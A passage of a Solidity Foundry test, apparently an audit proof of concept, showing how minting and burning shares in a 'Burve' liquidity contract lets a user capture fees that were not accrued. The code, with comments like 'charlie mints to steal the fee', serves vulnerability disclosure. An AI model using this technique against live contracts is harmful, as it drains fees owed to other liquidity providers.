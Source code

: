 ```solidity
        balanceBeforeToken0 = token0.balanceOf(charlie);
        balanceBeforeToken1 = token1.balanceOf(charlie);
        
        // charlie burns his shares
        vm.startPrank(charlie);
        burve.approve(address(burve), type(uint).max);
        burve.burn(burve.balanceOf(charlie), 0, type(uint128).max);
        vm.stopPrank();

        // get the tokens balance after
        balanceAfterToken0 = token0.balanceOf(charlie);
        balanceAfterToken1 = token1.balanceOf(charlie);

        console.log("token0 received for burning shares: ", balanceAfterToken0 - balanceBeforeToken0);
        console.log("token1 received for burning shares: ", balanceAfterToken1 - balanceBeforeToken1);

        // revert to the old state
        vm.revertToState(snapshot);

        console.log("\n");
        console.log("---- Mint and Burn Without fee ---");
        
        // get the charlie LP shares balance
        charlieBurveBalanceBefore = burve.balanceOf(charlie);

        // get the burve token balance before for checking the transferred balance
        balanceBeforeToken0 = token0.balanceOf(sender);
        balanceBeforeToken1 = token1.balanceOf(sender);

        // since the fee earned was only in one token, it will not be accrued
        // charlie mints to steal the fee
        vm.startPrank(sender);
        token0.approve(address(burve), type(uint256).max);
        token1.approve(address(burve), type(uint256).max);
        burve.testMint(address(charlie), mintLiq, 0, type(uint128).max);
        vm.stopPrank();

        // balance after mint
        balanceAfterToken0 = token0.balanceOf(sender);
        balanceAfterToken1 = token1.balanceOf(sender);

        // get the burve balance after
        charlieBurveBalanceAfter = burve.balanceOf(charlie);

        // new tokens minted
        console.log("token0 spent for mint: ", balanceBeforeToken0 - balanceAfterToken0);
        console.log("token1 spent for mint: ", balanceBeforeToken1 - balanceAfterToken1);
        console.log("new tokens minted to charlie for same amount of liqiudity: ", charlieBurveBalanceAfter - charlieBurveBalanceBefore);

        // get the tokens balance before
        balanceBeforeToken0 = token0.balanceOf(charlie);
        balanceBeforeToken1 = token1.balanceOf(charlie);
        
        // charlie burns his shares
        vm.startPrank(charlie);
        burve.approve(address(burve), type(uint).max);
        burve.burn(burve.balanceOf(charlie), 0, type(uint128).max);
        vm.stopPrank();

        // get the tokens balance after
```